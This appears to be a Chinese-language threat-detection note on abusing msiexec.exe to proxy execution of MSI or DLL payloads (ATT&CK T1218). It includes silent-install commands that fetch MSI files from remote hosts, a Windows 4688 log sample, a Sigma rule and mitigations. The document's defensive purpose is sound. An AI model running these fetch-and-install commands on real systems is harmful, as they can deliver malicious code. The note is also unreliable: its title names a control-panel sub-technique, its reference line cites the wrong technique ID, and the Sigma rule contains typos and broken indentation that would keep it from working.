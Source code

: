 # T1218-002-win-签名的二进制代理执行：控制面板

## 来自ATT&CK的描述

攻击者可能滥用msiexec.exe来代理恶意有效负载的执行。Msiexec.exe是Windows安装程序的命令行实用程序，因此通常与执行安装包（.msi）相关联。Msiexec.exe由Microsoft进行数字签名。

攻击者可能滥用msiexec.exe来启动本地或网络可访问的MSI文件。Msiexec.exe还可以执行DLL。由于Msiexec.exe在Windows系统上是签名的，因此可以使用Msiexec.exe绕过不考虑其潜在滥用的应用程序控制解决方案。如果启用了AlwaysInstallElevated策略，Msiexec.exe的执行也可以提升为系统权限。

## 测试案例

来自微软的msiexec介绍：<https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/msiexec>

```yml
msiexec.exe /q /i "C:\path\xx.msi"
msiexec.exe /q /I http://8.8.4.4/xx.msi
msiexec.exe /y "C:\path\xx.dll"
```

## 检测日志

windows security

## 测试复现

仅做演示：

```yml
C:\Users\Administrator>msiexec.exe /q /I http://www.baidu.com/1.msi
```

## 测试留痕

windows 安全日志 4688

```yml
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0x9D23C

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x19c
 新进程名称: C:\Windows\System32\msiexec.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x690
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: msiexec.exe  /q /I http://www.baidu.com/1.msi
```

## 检测规则/思路

### Sigma规则

```yml
title: 使用msiexec.exe执行恶意程序
description: 攻击者可能滥用msiexec.exe来启动本地或网络可访问的MSI文件。
status: experimental
references:
    - https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/msiexec 
logsource:
​    product: windows
​    service: security
detection:
​    selection:
​        EventID:
​               - 4688 #Windows 安全日志
         New Process Name: 'msiexec .exe' #Application Name
         Commanline: 
                - '/q'
                - '/y'
                - '/i'
​    condition: selection
level: low
```

## 建议

使用进程监控来监视msiexec.exe的执行和参数。将msiexec.exe的最近调用与已知良好自变量和执行的MSI文件或DLL的先前历史进行比较，以确定异常和潜在的对抗活动。在调用msiexec.exe之前和之后使用的命令参数在确定正在执行的MSI文件或DLL的来源和用途方面也可能很有用。

## 缓解措施

1. 禁用或删除功能或程序：将Msiexec.exe的执行限制为需要使用它的特权帐户或组，以减少恶意使用的机会。
2. 特权账户管理：将Msiexec.exe的执行限制为需要使用它的特权帐户或组，以减少恶意使用的机会。

## 参考推荐

MITRE-ATT&CK-T1070-007

<https://attack.mitre.org/techniques/T1218/007/>
